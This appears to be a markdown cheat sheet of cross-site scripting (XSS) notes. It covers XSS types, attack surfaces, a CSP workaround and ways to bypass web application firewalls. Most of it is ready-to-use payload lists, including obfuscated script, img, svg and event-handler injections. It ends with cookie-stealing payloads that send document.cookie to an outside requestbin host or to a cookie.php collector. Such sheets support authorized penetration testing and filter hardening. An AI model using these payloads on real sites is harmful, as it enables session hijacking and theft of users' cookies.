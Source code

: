 # XSS
Injection of malicious client side code into user's browser 

## Types of XXS attacks
1. Stored - payload is sent to the database and called each time the page is loaded
2. Blind XSS - type of stored XSS but you can't see the alert since it pops up in a page that you don't have access to
3. DOM Based XSS - vuln exists in client side code rather than server side code

Note: 
* Sometimes you wont see XSS alert on the same page where you entered data (Eg: profile , report).


##  Attack Surface
1. User-Agent in header
2. Image input - choosing file (XSS as an svg image)
3. XSS in URL params
4. XSS in Markdown files

## IF CSP policy is set to `self` you cannot execute inline or external scripts. Work around is JSON since it is same origin then.

Bypassing WAF:
1. Case insensitivity
2. URL encoding some special characters
3. Extra open brackets
4. Alternatives of script are - iframe, body, svg, img
5. Use eval

## Payloads
Basic test payload
```
<b>Test</b>
```

Basic payloads:
```
// Basic payload
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
<script>\u0061lert('22')</script>
<script>eval('\x61lert(\'33\')')</script>
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"

// Img payload
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>

<img src=x onerror="a='ale';b='rt(1)';eval(a+b);">


// Svg payload
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)
<svg><script>alert('33')
<svg><script>alert&lpar;'33'&rpar;

// Div payload
<div onpointerover="alert(45)">MOVE HERE</div>
<div onpointerdown="alert(45)">MOVE HERE</div>
<div onpointerenter="alert(45)">MOVE HERE</div>
<div onpointerleave="alert(45)">MOVE HERE</div>
<div onpointermove="alert(45)">MOVE HERE</div>
<div onpointerout="alert(45)">MOVE HERE</div>
<div onpointerup="alert(45)">MOVE HERE</div>
```


Using html tags
```
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<iframe/src="data:text/html,<svg onload=alert(1)>">

```
A lot of options on:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

https://owasp.org/www-community/xss-filter-evasion-cheatsheet

## Getting the cookie (Data Grabber)
```
<script>location="https://requestbin/?q="+document.cookie</script>

<script>fetch("https://requestbin/?q=" + document.cookie) </script>

<script>document.location="https://requestbin/?q="+document.cookie</script>

<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
```